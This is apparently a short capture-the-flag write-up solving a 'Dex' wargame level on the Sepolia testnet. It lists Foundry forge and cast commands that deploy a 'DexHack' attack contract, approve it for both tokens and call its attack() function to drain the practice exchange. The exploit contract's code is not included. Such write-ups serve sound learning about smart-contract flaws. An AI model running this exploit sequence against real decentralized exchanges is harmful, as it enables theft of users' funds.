 # Dex Solution

Deploy `DexHack`:

```
forge create DexHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args `ìnstanceAddress`
```

Retrieve `token1Address` and `token2Address`:

```
cast call `ìnstanceAddress` "token1()" --rpc-url $SEPOLIA_RPC_URL
# truncate the first 24 zeros
cast call `ìnstanceAddress` "token2()" --rpc-url $SEPOLIA_RPC_URL
# truncate the first 24 zeros
```

Approve the `dexHackAddress`:

```
cast send `token1Address` "approve(address,uint256)" `dexHackAddress` 100 --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
cast send `token2Address` "approve(address,uint256)" `dexHackAddress` 100 --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

Call the `attack()` function:

```
cast send `dexHackAddress` "attack()" --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
